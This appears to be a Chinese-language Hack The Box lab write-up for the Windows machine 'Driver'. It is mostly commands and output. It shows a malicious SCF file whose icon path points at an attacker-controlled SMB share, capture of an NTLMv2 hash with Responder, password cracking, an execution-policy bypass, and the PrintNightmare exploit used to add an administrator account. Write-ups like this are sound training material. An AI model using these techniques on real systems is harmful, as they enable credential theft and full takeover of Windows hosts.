

###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Driver
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.95.238 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.95.238:80
Open 10.129.95.238:135
Open 10.129.95.238:445
Open 10.129.95.238:5985

PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-13T13:20:35
|_  start_date: 2025-02-13T13:14:57
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 27727/tcp): CLEAN (Timeout)
|   Check 2 (port 21219/tcp): CLEAN (Timeout)
|   Check 3 (port 48259/udp): CLEAN (Timeout)
|   Check 4 (port 28653/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

查看`http://10.129.95.238`直接可以用`admin/admin`就登入了
可以看到`http://10.129.95.238/fw_up.php`



上傳檔案的東東，透過搜尋[SMB SCF File Attacks](https://gnnr.net/redteam_cookbook/enumeration/smb-scf-attack/)可以嘗試上傳`scf`
先開啟`responder`，嘗試編輯`@helper.scf`之後並上傳，就可以收到`tony`的`NTLMv2`hash
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo responder -I tun0

┌──(kali㉿kali)-[~/htb]
└─$ cat @helper.scf 
[Shell]
Command=2
IconFile=\\10.10.14.36\share\test.ico
[Taskbar]
Command=ToggleDesktop

[SMB] NTLMv2-SSP Client   : 10.129.95.238
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:a5fde746a39da0df:5F5CD6D66E9532F7F159D63CA8FC8E9C:010100000000000080A08177B87DDB0145B5C266DCA5C48E0000000002000800350030005100580001001E00570049004E002D003600320044003100330055004500580059003000390004003400570049004E002D00360032004400310033005500450058005900300039002E0035003000510058002E004C004F00430041004C000300140035003000510058002E004C004F00430041004C000500140035003000510058002E004C004F00430041004C000700080080A08177B87DDB0106000400020000000800300030000000000000000000000000200000DACED538E30594E56A8EFAA89F7CCD7B7A63C2F53E75FA2A456432F4132687400A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0033003600000000000000000000000000 
```

用`john`破可得`liltony`
```
┌──(kali㉿kali)-[~/htb]
└─$ john tony_hash --wordlist=/home/kali/rockyou.txt

liltony          (tony)
```

用`evil-winrm`登入，可在`C:\Users\tony\Desktop`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.95.238 -u tony -p 'liltony'

*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
476cc12b455b7ca9c5aa11f01468ab80
```

上傳`winPeas`
```
*Evil-WinRM* PS C:\Users\tony\Desktop> upload /home/kali/htb/winPEASx64.exe

*Evil-WinRM* PS C:\Users\tony\Desktop> ./winPEASx64.exe

ÉÍÍÍÍÍÍÍÍÍ͹ Current TCP Listening Ports
È Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                                            
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         716             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49408         0.0.0.0               0               Listening         468             wininit
  TCP        0.0.0.0               49409         0.0.0.0               0               Listening         856             svchost
  TCP        0.0.0.0               49410         0.0.0.0               0               Listening         1180            spoolsv
  TCP        0.0.0.0               49411         0.0.0.0               0               Listening         824             svchost
  TCP        0.0.0.0               49412         0.0.0.0               0               Listening         564             services
  TCP        0.0.0.0               49413         0.0.0.0               0               Listening         572             lsass
  TCP        10.129.95.238         139           0.0.0.0               0               Listening         4               System
  TCP        10.129.95.238         5985          10.10.14.36           36072           Established       4               System
```

搜尋`spoolsv`可以找到這個漏洞[CVE-2021-34527, CVE-2021-1675](https://github.com/nathanealm/PrintNightmare-Exploit)

先使用`rpcdump.py`查看是否受到漏洞影響
```
┌──(kali㉿kali)-[~/htb]
└─$ rpcdump.py @10.129.95.238 | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

找到[CVE-2021-1675.ps1](https://github.com/calebstewart/CVE-2021-1675)上傳靶機，會跑出`cannot be loaded because running scripts`
google搜尋到[PowerShell says "execution of scripts is disabled on this system."](https://stackoverflow.com/questions/4037939/powershell-says-execution-of-scripts-is-disabled-on-this-system)
然後用他
```
*Evil-WinRM* PS C:\Windows\Temp> Import-Module .\cve-2021-1675.ps1
File C:\Windows\Temp\cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.

*Evil-WinRM* PS C:\Windows\Temp> Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
*Evil-WinRM* PS C:\Windows\Temp> Import-Module .\cve-2021-1675.ps1
*Evil-WinRM* PS C:\Windows\Temp> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

他新增了一個`adm1n`的user是`administrator`的身分，利用`winrm`登入之後，到`C:\Users\Administrator\Desktop`得root.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.95.238 -u adm1n -p P@ssw0rd

*Evil-WinRM* PS C:\Users\adm1n\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5c64ca03fa8def17ab6f97fd0e39c3b2
```
